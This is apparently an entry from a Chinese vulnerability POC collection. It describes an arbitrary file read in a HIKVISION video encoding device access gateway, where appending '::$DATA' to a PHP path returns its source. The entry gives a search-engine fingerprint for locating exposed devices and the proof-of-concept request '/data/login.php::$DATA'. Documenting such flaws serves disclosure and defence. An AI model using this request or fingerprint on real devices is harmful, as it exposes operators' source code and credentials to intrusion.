 # HIKVISION 视频编码设备接入网关 $DATA 任意文件读取

## 漏洞描述

HIKVISION 视频编码设备接入网关存在配置错误特性，特殊后缀请求php文件可读取源码

## 漏洞影响

<a-checkbox checked>HIKVISION 视频编码设备接入网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="视频编码设备接入网关"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628164956874-f53d9c48-6820-4c43-a3e5-aea8b6415ae8.png)

验证POC

```plain
/data/login.php::$DATA
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1628165037205-928b64e5-2476-4511-afee-c562b17a031d.png)